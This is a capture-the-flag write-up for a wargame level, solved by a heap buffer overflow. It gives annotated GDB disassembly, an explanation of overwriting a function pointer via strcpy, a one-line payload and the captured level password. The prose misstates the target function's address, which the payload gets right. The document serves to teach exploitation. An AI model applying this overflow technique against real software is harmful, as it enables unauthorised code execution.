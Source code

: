 # level6

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We take a look at the existing functions inside the binary.

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40         ; load 64 as arg
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>       ; malloc(64)
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax     ; pointer of malloc is stored at [esp+0x1c]
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4          ; load 4 as arg
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>       ; malloc(4)
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax     ; pointer of last malloc is stored at [esp+0x18]
   0x080484a5 <+41>:    mov    edx,0x8048468                ; move 0x8048468 (<m>) to edx
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]     ; load pointer at [esp+0x18] (malloc(4)) into eax
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx          ; mov edx (<m>) into stack pointed by eax
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]      ; load address [ebp+12] into eax
   0x080484b3 <+55>:    add    eax,0x4                      ; [ebp+12] + 4: seems to be argv[1]
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]          ; load argv[1] into eax
   0x080484b8 <+60>:    mov    edx,eax                      ; load argv[1] into edx
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]     ; load [esp+0x1c] (malloc(64)) into eax
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx      ; arg2 = argv[1]
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax          ; arg1 = pointer malloc(64)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>       ; strcpy(malloc(64), argv[1])
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]     ; load [esp+0x18] into eax
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]          ; get first argument of struct pointed by eax
   0x080484d0 <+84>:    call   eax                          ; call eax where eax point to <m> (function pointer)
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1    ; 0x80485d1 = "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>         ; puts("Nope")
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0    ; 0x80485b0 = "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:    call   0x8048370 <system@plt>       ; system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

After analysing the differents functions we understand that we need to use the `call eax` instruction at `main<+84>` to make it call the hidden function `n` which will display the `.pass` file.

Since `malloc` will allocate 64 bytes for the string, then 4 more for the address of the function `m` (function pointer), theses two memory spaces will be contiguous.

The use of `strcpy`, which does not check the source string length, to write inside the address returned by the first `malloc`, will allow us to perform a buffer overflow attack on the heap to overwrite the address stored inside the function pointer (`m` address) with the address of `n`.

## Exploit

The argument we send must be long enough to fill in the 64 bytes allocated by the first `malloc` allocation plus the 8 bytes of block metadata. The 4th next bytes, corresponding to the second `malloc` allocation, must be replaced with the address of `n` function (0x08048468).

```console
level6@RainFall:~$ ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```